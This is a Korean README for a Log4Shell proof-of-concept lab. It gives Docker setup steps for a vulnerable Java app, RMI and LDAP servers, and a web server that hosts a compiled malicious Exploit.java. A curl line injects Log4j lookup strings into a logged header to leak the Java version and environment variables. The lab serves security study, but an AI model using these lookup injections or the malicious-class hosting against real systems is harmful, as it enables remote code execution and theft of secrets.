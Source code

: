 # Log4Shell-PoC
Log4Shell PoC with RMI, LDAP

## Vulnerable Application

### 빌드 및 실행

1. [DoTTak/Log4Shell-PoC](https://github.com/DoTTak/Log4Shell-PoC) 저장소로 부터 코드를 내려받은 뒤, 해당 프로젝트로 이동한다.
    
    ```bash
    git clone https://github.com/DoTTak/Log4Shell-PoC.git
    cd Log4Shell-PoC
    ```
    
2. 이후 `vulnerable-application` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    cd vulnerable-application
    docker build --platform linux/amd64 -t log4shell-poc-app .
    ```
    
3. 생성된 도커 이미지 `log4shell-poc-app:latest` 를 컨테이너로 실행하자.
    
    > 참고로, 웹 애플리케이션 서버 포트는 항상 `7777` 로 오픈 되어 있다. 변경은 `Application.java` 를 수정하면 된다.
    > 
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-poc-app -p 7777:7777 log4shell-poc-app
    ```

### 사용법

```bash
# 아래 명령어를 호스트 PC에서 실행할 경우 log4shell-poc-app 컨테이너 로그에 아래 메시지(헤더 'msg')가 출력된다.
curl localhost:7777/log -H 'msg: Log4j Test >> ${java:version}, ${java:vm}, ${env:PATH}'
```

## RMI Server

### 빌드 및 실행
1.  `rmi-server` 폴더로 이동한 뒤, `Dockerfile` 을 빌드하여 도커 이미지를 생성한다.
    
    ```bash
    docker build --platform linux/amd64 -t log4shell-rmi-server .
    ```
    
2. 생성된 도커 이미지 `log4shell-rmi-server:latest` 를 컨테이너로 실행하자.
    
    ```bash
    docker run --rm --platform=linux/amd64 --add-host=host.docker.internal:host-gateway --name log4shell-rmi-server -p 1099:1099 log4shell-rmi-server
    ```

## LDAP Server

### 빌드 및 실행
1. `ldap-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 실행한다.

    ```bash
    docker-compose up -d
    ```

2. 위 명령어가 정상적으로 수행됐으면 [http://localhost:8080](http://localhost:8080)를 브라우저를 통해 접속한다.

## Exploit Server

### 빌드 및 실행
1. `exploit-server` 폴더로 이동한 뒤, 아래의 명령어를 통해 `Exploit.java` 를 컴파일한다.

    ```bash
    javac Exploit.java
    ```

2. 그 다음 해당 경로를 악성 자바 객체를 호스팅하기 위해 아래의 명령어를 통해 웹 서버를 실행한다.

    ```bash
    python3 -m http.server
    ```